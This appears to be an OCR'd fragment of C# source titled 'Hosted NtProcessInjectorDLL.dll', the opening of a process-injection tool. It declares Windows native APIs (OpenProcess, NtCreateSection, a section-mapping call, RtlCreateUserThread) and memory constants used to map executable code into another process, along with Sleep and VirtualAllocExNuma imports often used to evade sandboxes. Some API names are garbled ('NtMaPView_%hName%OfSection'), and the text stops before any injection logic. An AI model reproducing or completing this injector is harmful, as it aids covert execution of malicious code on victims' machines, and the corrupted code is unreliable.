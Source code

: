     ###########Hosted NtProcessInjectorDLL.dll:###########
    using System;
    using System.Linq;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Collections.Generic;
    using System.Text;
    using System.Threading.Tasks;
    using System.IO;
    using System.Net;

    namespace NtProcessInjectorDLL
    {
        public class MyClass
        {
            public const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
            public const uint SECTION_MAP_READ = 0x0004;
            public const uint SECTION_MAP_WRITE = 0x0002;
            public const uint SECTION_MAP_EXECUTE = 0x0008;
            public const uint PAGE_READ_WRITE = 0x04;
            public const uint PAGE_READ_EXECUTE = 0x20;
            public const uint PAGE_EXECUTE_READWRITE = 0x40;
            public const uint SEC_COMMIT = 0x8000000;

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
            static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

            [DllImport("ntdll.dll", SetLastError = true)]
            static extern uint NtMaPView_%hName%OfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

            [DllImport("ntdll.dll", SetLastError = true)]
            static extern uint NtUnmaPView_%hName%OfSection(IntPtr hProc, IntPtr baseAddr);

            [DllImport("ntdll.dll", SetLastError = true)]
            static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

            [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
            static extern int NtClose(IntPtr hObject);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

